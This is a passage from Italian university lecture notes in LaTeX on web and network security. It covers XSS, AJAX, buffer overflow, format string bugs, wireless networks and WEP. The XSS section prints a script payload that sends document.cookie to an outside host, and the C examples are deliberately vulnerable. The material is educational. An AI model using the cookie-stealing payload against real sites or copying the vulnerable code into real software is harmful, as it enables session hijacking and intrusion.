Se provassimo ad inserire del codice HTML (e.g. \texttt{<h1> prova </h1>}) nel form, questo viene interpretato dal browser come codice da eseguire e non come semplice testo. Se, invece, dentro al form provassimo ad inserire del codice Javascript (e.g. \texttt{<script> alert("Hello World!"); </script>}), succederebbe che il browser scaricherebbe la pagina web con il codice Javascript e lo eseguirebbe in locale. In questo caso l'unica conseguenza è l'apertura di una finestra nel browser dell'utente, ma complicando le cose potremmo avere attacchi molto più complessi.

HTML non ha uno stato relativo alla sessione, ogni connessione non è correlata alla precedente. Per evitare di reinserire utente e password ad ogni azione, si utilizzano i \textit{cookies}. Un cookie è un'informazione che il server invia al browser dopo il primo login ed il browser automaticamente reinvia al server ad ogni azione. In questo modo il server riconosce il browser e gli permette di saltare le autenticazioni per il tempo di validità del cookie. Vediamo adesso un esempio più completo; nella prima pagina mettiamo un codice banale per effettuare un login:
\begin{lstlisting}[language=html]
<html>
	<h4> login </h4>
	<form action="check.php" method="get">
		User:
		<input type="text" name="user">
		<br>
		Password:
		<input type="text" name="pass">
		<input type="submit" value="entra">
	</form>
</html>
\end{lstlisting}
Lo script in PHP che controlla l'utente invia un cookie:
\begin{lstlisting}[language=php]
<?php
	if ($_get["user"] == "pippo"){
		setcookie("user", "authorized", time() + 3600);
		echo "Benvenuto ".$user;
		# crea un cookie con nome user, e dati relativi all'utente.
		echo <<<END
		<form action="retrieve.php" method="get">
			Input:
			<input type="text" name="content">
			<br>
			<input type="submit" value="Ok">
		</form>
		END;
	}
	else
		echo "L'utente non esiste\n";
?>
\end{lstlisting}
Il codice di echo è il seguente:
\begin{lstlisting}[language=php]
<?php
	if ($_COOKIE["user"] == "authorized"){
		$input = $_GET['content'];
		echo "Hai scritto: ".$input;
	}
	else
		echo "non hai diritto ad accedere a questa pagina\n"
?>
\end{lstlisting}
Se adesso provassimo ad inserire il codice Javascript di prima, troveremmo un cookie con un valore. Se inserissimo però \texttt{{\footnotesize<script> window.open('http://google.it?cookie='+document.cookie) </script>}} succederebbe che il browser invierebbe al sito il contenuto del cookie.

Vediamo più nel concreto dove può essere applicato questo genere di attacco. Immaginiamo un sito nel quale è possibile lasciare commenti. Il sito non fa la validazione degli input, quindi permette agli utenti di aggiungere codice Javascript alla pagina. Un attaccante potrebbe pensare quindi di aggiungere un codice come quello precedente, e tutte le persone che dopo di lui caricano la pagina lo eseguirebbero. Se quelle persone hanno dei cookie, i cookie verrebbero rediretti verso un sito controllato dall'attaccante: l'attaccante a quel punto può usarli per accedere a dei servizi con l'identità degli utenti vittime. A scopo informativo, di seguito sono riportati alcuni attacchi XSS effettuati negli scorsi anni:
\begin{itemize}
	\item Ottobre 2007. XSS in Sutra's Airkiosk: un software che gestisce le prenotazioni online di molte compagnie aeree low-cost. Sul sito gli utenti immettono i propri dati ed i numeri di carta di credito.
	\item Gennaio 2008. XSS nel sito di Banca Fideuram Online: un XSS permetteva all'attaccante di aprire pagine che provenivano dal sito della banca, sotto HTTPS, ma che redirigevano le informazioni all'esterno.
\end{itemize}
La stessa cosa può accadere utilizzando: link HTML dentro al corpo delle e-mail ed errori prodotti da web server mal configurati (e.g. 404).

\subsection{Attacchi ai protocolli superiori}
Introduciamo anzitutto una nota tecnica di sviluppo: \textbf{AJAX} (Asynchronous JavaScript and XML). È un paradigma per la programmazione online che lega Javascript e XML con un qualsiasi linguaggio di backend per produrre interazione \textit{asincrona} tra client e server. Il termine \textquotedblleft interazione asincrona" significa che la pagina reagisce in tempo reale alle azioni dell'utente senza il bisogno di ricaricare completamente la pagina. Gmail e facebook sono esempi di applicazioni scritte in AJAX. Nella pratica AJAX non è una nuova tecnologia ma una composizione di
tecnologie esistenti aventi gli stessi problemi, ma con una più complessa gestione della sicurezza. AJAX è un modello di programmazione molto complesso, vedremo dunque solo alcune linee guida relative alla sicurezza. In Figura \ref{img:ajax-model} è riportata la differenza tra modello classico ed il modello di AJAX; in pratica la parte di autenticazione e richiesta-risposta al server è gestita interamente da AJAX. Questa non è assolutamente una buona idea, poiché sorge il problema \textquotedblleft chi si autentica con chi" ed inoltre un eventuale bug nell'AJAX engine rappresenterebbe una vulnerabilità del sistema utilizzabile da un attaccante.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.35]{images/ajax-model}
	\caption{Modello classico client-server e modello AJAX.}
	\label{img:ajax-model}
\end{figure}\\
Vediamo tre pericoli a cui è esposto AJAX:
\begin{enumerate}
	\item \textbf{Controlli client-side}. Un controllo di sicurezza deve essere effettuato server-side e non client-side. Quando si deve controllare la validità di una password ad esempio, ci si deve ricordare che l'applicazione client-side è
	sempre manipolabile dall'utente. La tendenza a demandare azioni all'applicazione cliente su AJAX porta a compiere errori di questo tipo.
	\item \textbf{Cache client-side}. AJAX salva in cache locale molti dati relativi alla sessione; è necessario dunque porre un'attenzione particolare verso altri programmi che possono manipolare questi dati.
	\item \textbf{Mashups}. Il web 2.0 è fatto di integrazione di contenuti prodotti dagli utenti e da altre sorgenti aggregate nella stessa pagina. Un aggregatore di servizi mette insieme oggetti che provengono da indirizzi IP e domini diversi. È quindi molto difficile tracciare tutte le sorgenti che contribuiscono ad una stessa pagina e filtrarle in modo che non vi caschino anche applicazioni non previste (vedi XSS).
\end{enumerate}
Per rendere sicuro AJAX, dunque, i controlli dovrebbero essere effettuati server-side e la cache di AJAX dovrebbe essere in qualche modo protetta per evitare che l'attaccante recuperi in qualche modo i dati sensibili al suo interno. Si noti che i dati nella cache vengono trasferiti prima di qualsiasi richiesta da parte dell'utente.

\noindent Vediamo di seguito gli attacchi alle applicazioni.

\subsubsection{Buffer overflow}
Il buffer overflow è una vulnerabilità in un programma che permette ad un attaccante di far eseguire del codice arbitrario all'applicazione vulnerabile; nel peggiore dei casi è svolto da remoto. Lo scopo è quello di riuscire ad eseguire dei comandi che altrimenti l'attaccante non potrebbe eseguire sulla macchina remota. I buffer overflow sono causati da errori di programmazione di chi scrive i programmi e sono di gran lunga la causa più frequente di intrusioni. Consideriamo un programma in linguaggio C come questo:
\begin{lstlisting}[language=C]
#include <stdio.h>
#include <string.h>

int stampa(char*);

int main(int argc, char** argv) {
	if (argv[1]!=NULL)
		stampa(argv[1]);
	else
		printf("niente da stampare\n");
}
	
int stampa(char* parola) {
	char testo[10];
	strcpy(testo, parola);
	printf("la parola da stampare e': %s\n", testo);
}
\end{lstlisting}
La funzione \texttt{stampa()} viene allocata in una zona di memoria diversa da quella della funzione \texttt{main()}. Quando \texttt{stampa()} ha concluso, il controllo deve ritornare alla funzione \texttt{main()}: si dice che deve fare un \textit{jump incondizionato} nella locazione di memoria in cui è presente nella funzione \texttt{main()}. I passaggi di parametri avvengono mettendo le variabili in una zona comune: lo \textit{stack}. In questo caso nello stack:
\begin{itemize}
	\item Vi è l'indirizzo di ritorno a cui \texttt{stampa()} deve fare la jump quando termina.
	\item Vi è la variabile \texttt{parola}.
	\item Viene allocata anche la variabile \texttt{testo} della funzione \texttt{stampa()}.
\end{itemize}
La situazione dello stack è quindi la seguente:
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|}
		\\ \\ \hline \\
		\hline
		\texttt{\small testo} \\
		\hline
		\texttt{\small parola} \\
		\hline
		\texttt{\small return address} \\
		\hline
	\end{tabular}
\end{figure}\\
Nel codice sorgente non si controlla che la variabile \texttt{parola} sia lunga meno di 10 \texttt{char}. Se la variabile fosse più lunga dello spazio assegnato, questa andrebbe a sovrascrivere altre zone dello stack, provocando un \textit{segmentation fault}. Si noti che le variabili nello stack vengono scritte dal basso verso l'alto (LIFO), ma all'interno di ogni variabile i caratteri vengono scritti dall'alto verso il basso. Se la variabile \texttt{testo} è più lunga della memoria che le è stata assegnata (10 byte), questa può arrivare a sovrascrivere anche l'indirizzo di ritorno e dunque l'attaccante può cambiare il flusso di esecuzione del programma. L'attaccante potrebbe inoltre scrivere del codice eseguibile nello spazio di memoria della variabile \texttt{testo} e far puntare l'indirizzo di ritorno all'inizio di quella porzione di memoria. Il risultato è quello voluto dall'attaccante: quando \texttt{stampa()} termina la propria esecuzione viene eseguito un jump verso l'indirizzo di ritorno modificato e viene eseguito il codice deciso dall'attaccante al termine del quale l'applicazione andrà in crash.

Per proteggersi dai buffer overflow è necessario controllare \textit{sempre} l'input che arriva dall'esterno (input da utente, input da file, variabili d'ambiente) ed utilizzare funzioni che limitano la lunghezza della scrittura (non usare dunque \texttt{strcpy(dest, source)}, ma \texttt{strncpy(dest, source, len)}). Linux rimedia a questo attacco offrendo la possibilità di rendere lo stack non eseguibile ed esistono inoltre dei compilatori/debugger per individuare i buffer overflow. Le buone pratiche che ogni programmatore dovrebbe considerare sono: protezione dai buffer overflow, uso di files temporanei, evitare race condition e la chiamata \texttt{system()} (quest'ultima può avere effetti devastanti per il sistema operativo).

\subsubsection{Format bug}
Un format bug è un attacco che si basa su un errore di programmazione molto comune che ha sempre a che vedere con la gestione delle stringhe. Un codice di esempio:
\begin{lstlisting}[language=C]
#include <stdio.h>
#include <string.h>

int stampa(char*);

int main(int argc, char** argv) {
	if (argv[1]!=NULL)
		printf(argv[1]);
	else
		printf("niente da stampare");
	printf("\n");
}
\end{lstlisting}
Il format bug in questo caso è contenuto nella funzione \texttt{int printf(const char* format, ...);} che prende in ingresso una sequenza di puntatori a char ed il primo parametro è il formato. Nel formato generalmente è scritto quanti e quali sono i parametri che seguono, ad esempio \texttt{printf("\%s","Hello World");} La funzione \texttt{printf()} legge la stringa di formato, trova i simboli speciali che iniziano per \texttt{\%}, conta quanti e quali parametri seguono, li legge dallo stack, li sostituisce ai caratteri speciali e poi stampa la stringa di formato. Se si lascia all’utente la possibilità di scrivere nella stringa di formato (invece che riempire i buchi usando gli speciali \texttt{\%}) si va incontro a problemi seri. Vediamo quali sono.\\
Se l'utente digita come input una stringa come \texttt{\%x\%x}, funzione \texttt{printf()} cerca nello stack due valori e li stampa come esadecimali. Nello stack, ad eccezione delle informazioni che vengono messe implicitamente nel corso del programma, non vi è nulla che riguardi la \texttt{printf()} stessa. Per metterci qualcosa basta digitare in input una stringa del tipo \texttt{aaaa \%x\%x}. Così facendo, viene fatto il \textit{pop} dallo stack, nel momento in cui viene eseguita la \texttt{printf()}, di tutti i parametri che vengono passati, quindi non è possibile apparentemente interferire con lo stack. Esistono tuttavia dei valori di formato particolarmente esoterici:
\begin{itemize}
	\item \texttt{\%.XXX}: il punto specifica il padding con cui scrivo l'argomento successivo, come in
	\begin{center}
		\texttt{printf("\%.50d \%n\%d\textbackslash n", x, \&pos, y);}
	\end{center}
	\item \texttt{\%n}: questo valore di formato non legge, ma scrive nel valore di memoria dello stack, definito nel parametro successivo, il numero di caratteri stampati fino a quel momento. Il suo uso corretto sarebbe:
	\begin{lstlisting}[language=C]
		int pos, x = 235, y = 93;
		printf("\%d \%n\%d\n", x, &pos, y);
		printf("The offset was \%d\n", pos);
	\end{lstlisting}
\end{itemize}
In questo modo è possibile quindi scrivere nello stack valori più o meno arbitrari.\footnote{Per maggiori dettagli si veda \url{http://seclists.org/bugtraq/2000/Sep/214}.} Senza entrare nei dettagli, si possono ripetere gli stessi attacchi anche per attuare i buffer overflow.
\chapter{Sicurezza delle reti wireless}
In questo capitolo verrà data inizialmente una breve panoramica sulle tecnologie wireless, seguita da una descrizione dettagliata del protocollo 802.11 (Wi-Fi) e delle sue insicurezze.

Introduciamo brevemente le due topologie di reti wireless (Figura \ref{img:wireless-topology}):
\begin{enumerate}
	\item \textbf{Modello infrastructure (o centralizzato)}. Questo tipo di rete ha origine da reti wireless commerciali, quindi vi è una stazione base detta \textit{Access Point} (AP), connessa in modo privato alla rete internet, alla quale si connettono tutti i dispositivi.
	\item \textbf{Modello ad-hoc (o distribuito)}. Questo tipo di rete si basa sulle comunicazioni multi-hop tra gli host della rete. Nel caso di rete locale il routing è diretto dal livello 7 perché è sufficiente l'indirizzo IP; nel caso di rete multi-hop, invece, il routing è quello classico, quindi vi sono tutti i problemi relativi agli attacchi.
\end{enumerate}
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/wireless-topology}
	\caption{Topologie reti wireless: centralizzata e distribuita.}
	\label{img:wireless-topology}
\end{figure}
In una rete centralizzata è necessario avere una mutua autenticazione tra host e AP centrale, mentre in una multi-hop tutti devono fidarsi di tutti quindi un attaccante può facilmente manipolare la rete una volta dentro.

La diffusione del Wi-Fi è dovuta principalmente alla sua semplicità di installazione, all'assenza di cavi ed alla comodità. Nelle reti Wi-Fi la banda utilizzabile effettivamente è una piccola percentuale rispetto al bitrate massimo: ad esempio nell'802.11b si ha un bitrate massimo di 5 Mb/s che è molto inferiore rispetto a quello massimo ($\approx$ 10 Mb/s). Il vantaggio principale di una rete ad-hoc è il multi-hop; lo scopo di queste reti è quello di essere del tutto auto-organizzanti ed estendibili.

Il fatto che per le reti wireless vi sia una mancanza di un limite geografico implica che le informazioni possono essere \textit{sniffate} più facilmente e si possono subire attacchi dall'esterno, dunque il rischio per l'attaccante è minimo. Vi è inoltre una ridefinizione del ruolo del livello MAC: l'accesso è inteso anche come \textquotedblleft controllo degli accessi"; a questo si aggiunge una maggior complessità dei firmware e dei driver. Si tenga comunque presente che abbiamo a che fare con dispositivi aventi risorse computazionali limitate.

Gli \textit{hotspot} sono punti di accesso ad internet che utilizzano la tecnologia wireless (normalmente 802.11) in modalità infrastructure. I vantaggi sono molteplici, ad esempio: abbattimento dei costi di gestione (non c'è cablaggio) ed installazione immediata. Vengono comunemente utilizzati in aeroporti, stazioni e alberghi. I problemi relativi alla gestione sono principalmente la limitazione del raggio e degli accessi.

Le reti \textit{ad-hoc/mesh} sono reti \textit{spontanee}, auto-organizzanti. Vengono principalmente utilizzate per ritrovi temporanei, riunioni, interventi in situazioni di emergenza, reti tattiche militari, ambienti con mancanza di infrastruttura (montagna, fiera), per sopperire al problema dell'ultimo miglio e per coprire aree molto estese.

Le reti \textit{PAN (Personal Area Network)} (dette anche Low-Power) sono reti di dimensioni ridotte utilizzate per interconnettere apparati (stampanti, computer, cellulari), configurate normalmente in modalità ad-hoc senza routing. Queste reti presentano un bitrate molto basso ed un raggio di copertura che può variare molto. La tecnologia più evoluta è lo standard Bluetooth, adesso confluito nell'IEEE 802.15.

Per quanto riguarda la \textit{legislazione}, le reti 802.11 b/g lavorano in frequenze non regolate (2.4 GHz, banda ISM -- Industrial, Scientific, Medical), quindi non sono soggette a licenza. Per queste frequenze in Italia il limite di potenza trasmissibile è di 100 mW per metro quadro, che permette comunicazioni in spazio libero fino a circa 300 metri con tecnologia 802.11. Le leggi ed i decreti presenti in Italia regolamentano l'utilizzo delle delle frequenze ISM e le modalità di autenticazione rendendone molto complicato l'utilizzo su suolo pubblico: questo ha frenato decisamente la diffusione di tali tecnologie sul suolo pubblico rispetto ad altri paesi (in cui vi sono regolamentazioni diverse). Lo svantaggio di ISM è la concentrazione di device che porta a collisioni continue.

La tecnologia \textit{WiMax} utilizza invece frequenze non in banda ISM. WiMax è una tecnologia nata per sostituire le connessioni cablate, che vanno dalla centrale del gestore alle singole abitazioni, anche connettendo tra loro più hotspot 802.11. Gli standard di riferimento dono l'IEEE 802.16d del 2004, e l'IEEE 802.16e del 2005. WiMax può utilizzare uno spettro di frequenze molto largo ($[2, 66]$ GHz), permette teoricamente collegamenti con un bitrate fino a 74 Mbps e può essere utilizzato anche su distanze molto grandi (chilometri). Una delle sue caratteristiche più importanti è quella di offre il controllo della qualità del servizio a livello MAC, oltre ad offrire anche una modalità ad-hoc (mesh). Era pertanto una tecnologia con delle grandi potenzialità, sopperita però perché rappresentava \textquotedblleft minacce" per i gestori telefonici, quindi per motivi prettamente commerciali.

La tecnologia \textit{bluetooth} è utilizzata per reti di piccole dimensioni, utilizzate per connettere tra di loro apparati dati (inizialmente auricolari, poi cellulari, stampanti, $\dots$). Opera in frequenze di 2.4 GHz, il suo bitrate massimo è 720 kbps e funziona normalmente in modalità ad-hoc. Per quanto riguarda le distanze vi sono tre categorie di potenza, che permettono un raggio di copertura che varia dai 10 ai 100 metri. Sostanzialmente bluetooth è uno standard che funziona bene solo \textquotedblleft su carta", in realtà non offre grandi prestazioni ed è molto difficile da utilizzare perché il proprio standard si è evoluto \textquotedblleft a pezzi"; si è sviluppato cioè nel corso degli anni per offrire nuovi servizi (e al tempo stesso essere retrocompatibile): questo ha reso lo standard molto complesso. Oggi è utilizzato addirittura per lo stack protocollare TCP/IP: questo standard è nato semplicemente per far comunicare un telefono con un auricolare. Attualmente, al contrario di quando fu ideato, lo standard bluetooth non può più essere considerato PAN in senso stretto.

Altre tecnologie wireless sono: \textit{hyperlan2}, uno standard ETSI per reti locali wireless, con caratteristiche molto simili all'802.11, in realtà mai sviluppato e sopperito fin dall'inizio, e \textit{reti cellulari} come GSM, GPRS, UMTS $\dots$

Le reti, in generale, sono di tipo \textit{monoservizio} e \textit{multiservizio}. Le prime sono progettate per fornire un solo servizio all'utente (e.g. GSM, telegrafo, telefonia classica, Internet (nasce per trasmettere dati)). Le seconde, dette anche \textit{reti integrate nei servizi}, sono progettate per fornire più servizi agli utenti (e.g. ISDN e broadband ISDN -- oramai non più utilizzate); questo tipo di rete non ha mai avuto un grande successo per il semplice motivo che, essendo complesse, per il loro sviluppo servono diversi anni, dunque l'analisi dei requisiti effettuata in un primo momento del progetto non corrisponderà più alle esigenze che si vogliono soddisfare nel momento in cui questa diventa disponibile ed utilizzabile.

\section{Il protocollo 802.11 e Wi-Fi}
La prima versione dello standard 802.11, con la definizione dello strato MAC e delle caratteristiche di sicurezza, fu rilasciata nel 1996; il bitrate massimo era 2 Mbps. Nel 1999 furono sviluppate le versioni 802.11b, con un bitrate massimo di 11 Mbps, e 802.11a, versione per frequenze di 5 GHz con un bitrate massimo di 54 Mbps. Nel 2004, invece, furono sviluppate le versioni 802.11g, per frequenze di 2.4 GHz con bitrate massimo 54 Mbps, e 802.11i contenente una completa ristrutturazione dello strato di sicurezza. Nel 2007 venne introdotta la versione 802.11n, una versione con tecnologia MIMO (multiple-input multiple-output) che supporta bitrate superiori a 54 Mbps.

Il range di frequenze dello standard 802.11 è $[2.4, 5]$ GHz, il bitrate è circa $[11, 108]$ Mbps effettivi. Il raggio di copertura arriva fino a 50m in ambienti indoor e fino a 300m in ambienti outdoor senza linea di vista, e permette la mobilità.

La differenza sostanziale tra il protocollo 802.11 ed il WiFi è che il primo è uno standard che si occupa dei livelli 6 e 7, mentre il secondo garantisce la compatibilità tra i dispositivi, ai livelli 1 e 2, e lo standard 802.11.

Prima che gli standard 802.11 vengano rilasciati ufficialmente, i maggiori produttori, che formano un consorzio WiFi (detto WiFi Alliance), rilasciano una pre-release e certificazioni sui prodotti hardware. In particolare, il consorzio, per rimediare all'emergenza causata dalle insicurezze riscontrate in tutte le versioni dell'802.11 precedenti alla $i$, anticipa nei propri prodotti una versione incompleta di 802.11i che chiama WPA (Wireless Protected Access). A questa segue WPA2, che corrisponde alla versione aderente a 802.11i. Attualmente esistono molti working group ($j,h,f,\dots$) con lo scopo di arricchire il protocollo con nuove caratteristiche quali QoS, fast handoff, etc. Negli standard vi è quindi sempre una parte resa volutamente \textit{implementation dependent}, che la lo scopo di lasciare parti dello standard libere, in modo che le aziende possano scegliere quali parti dello standard utilizzare o personalizzare e quali no. Questa parte serve sostanzialmente per permettere la competizione tra aziende. Di seguito verrà introdotto il funzionamento di 802.11 nelle versioni precedenti alla $i$.\\
Nell'802.11 i pacchetti possono essere di tre tipi:
\begin{itemize}
	\item \textbf{Management}. Sono tutti i pacchetti che non trasportano dati, ma che vengono utilizzati dalle macchine per gestire il traffico dati. Questi includono pacchetti di autenticazione e deautenticazione, pacchetti di associazione e deassociazione, pacchetti di Beacon (pacchetti inviati continuamente dallo strato fisico contenenti il nome della rete (SSID), vedremo meglio in seguito). I pacchetti di management non prevedono nessuna forma di autenticazione o di cifratura. Il fatto che i pacchetti di autenticazione/deautenticazione non siano cifrati rappresenta una vulnerabilità dello standard (by design).
	\item \textbf{Control}. Sono tutti i pacchetti che non trasportano dati ma che vengono utilizzati dalle macchine per gestire l'accesso al canale, che avviene normalmente con politiche CSMA/CA. Vi sono quindi pacchetti di RTS/CTS (per risolvere il problema del terminale nascosto), di ACK, etc. Anche i pacchetti di controllo non prevedono nessuna forma di autenticazione o cifratura. Dal momento che i pacchetti di CTS non sono autenticati, un attaccante potrebbe pensare di mandare continuamente questi pacchetti in modo da saturare la banda e bloccare la rete.
	\item \textbf{Data}. Sono tutti i pacchetti che trasportano il contenuto informativo. Questi pacchetti possono essere cifrati ed autenticati.
\end{itemize}
Il \textbf{WEP} (Wired Equivalent Privacy) è l'insieme delle procedure introdotte in 802.11 per garantire privacy e sicurezza nelle comunicazioni, oltre al controllo degli accessi. Lo scopo dichiarato è quello di fornire un livello di sicurezza equivalente a quello di una rete cablata tradizionale. Le macchine appartenenti alla rete hanno tutte una chiave in comune, detta chiave WEP. Il WEP, in particolare, prevede:
\begin{itemize}
	\item Una \textit{unica chiave condivisa} tra tutte le macchine della rete per cifrare il traffico unicast e broadcast. Con questa strategia non esiste un'autenticazione dei pacchetti relativa alla singola macchina (non si sa chi ha effettuato l'accesso), non esistono comunicazioni segrete tra due singole macchine, non esiste un meccanismo automatico di \textit{refresh} della chiave ed un eventuale sniffing dei dati da parte di altri membri della rete è molto semplice.
	\item Una \textit{fase di autenticazione} in cui una nuova macchina dimostra di possedere la chiave. L'autenticazione è di tipo \textit{shared key}: il client di deve autenticare verso l'access point dimostrando di possedere la chiave segreta. Si noti che in sistemi più robusti (come WPA) la cifratura delle informazioni non è basata sulla chiave condivisa: questa viene infatti usata solamente per negoziare un'altra chiave che servirà a cifrare i dati. Quindi:
	\begin{enumerate}
		\item Il client chiede all'AP di autenticarsi.
		\item L'AP risponde con un \textit{challenge text}.
		\item Il client risponde con il \textit{challenge text cifrato}.
	\end{enumerate}
	Questa idea non è molto buona: un attaccante potrebbe intercettare challenge in chiaro e challenge cifrato da cui è possibile risalire alla chiave.\\
	In questa fase i pacchetti sono di tipo management, dunque non sono né autenticati né cifrarti. In pratica viene cifrato solo il campo di payload del pacchetto, con un algoritmo di cifratura di tipo stream. La procedura è molto veloce e quindi pensata per poter essere utilizzata come procedura di handoff rapido anche tra più AP. L'AP in questo caso è l'unico elemento che decide chi far entrare nella rete: la gestione degli accessi è quindi tutta sull'AP stesso. Per reti costituite da più AP la gestione diventa molto complessa o del tutto statica.
	\item Un \textit{algoritmo di cifratura} dei pacchetti di tipo \textit{stream}, l'RC4, che tuttavia è un algoritmo estremamente debole.
\end{itemize}
Gli algoritmi \textit{stream} cifrano il contenuto in chiaro bit per bit, e non a blocchi di dimensione fissa. In pratica, a partire da un segreto, si genera un vettore di lunghezza variabile di dati pseudocasuali (\textit{keystream}). Per rendere unico ogni pacchetto si aggiunge al segreto un vettore di inizializzazione (IV), dunque il keystream dipende dalla coppia (segreto, IV). Si effettua infine uno XOR logico tra il keystream e l'informazione da cifrare. Uno schema logico dell'algoritmo è riportato in Figura \ref{graph:stream-encryption}.\\
Gli algoritmi di tipo stream sono molto veloci e facili da implementare; riutilizzare più volte lo stesso IV significa ripetere due volte lo stesso keystream, dunque se si è a conoscenza di uno dei due pacchetti in chiaro è possibile ricavare anche il secondo. Dunque, lo stesso keystream non deve essere mai utilizzato.
\begin{figure}[htbp]
	\centering
	\begin{tikzpicture}[->,>=stealth',shorten >=1pt,auto,node distance=5.8cm,
	semithick, scale = 0.6, transform shape]
	
		\node[rect,align=center] (1) {Generatore di numeri\\pseudocasuali};
		\node[] (2) [left of=1] {($K$, IV)};
		\node[state] (3) [right of=1] {$+$};
		\node[] (4) [above of=3,yshift=-3cm] {Testo in chiaro};
		\node[] (5) [right of=3,xshift=-2cm] {Testo cifrato};
		
		\path (2) edge node {} (1)
		(1) edge node {Keystream} (3)
		(4) edge node {} (3)
		(3) edge node {} (5);
	\end{tikzpicture}
	\caption{Algoritmo di cifratura di tipo stream. Il simbolo \textquotedblleft $+$" rappresenta l'operatore logico XOR.}
	\label{graph:stream-encryption}
\end{figure}\\
Vediamo adesso la procedura di cifratura con RC4 (Figura \ref{img:RC4-encryption}):
\begin{figure}[htbp]
	\centering
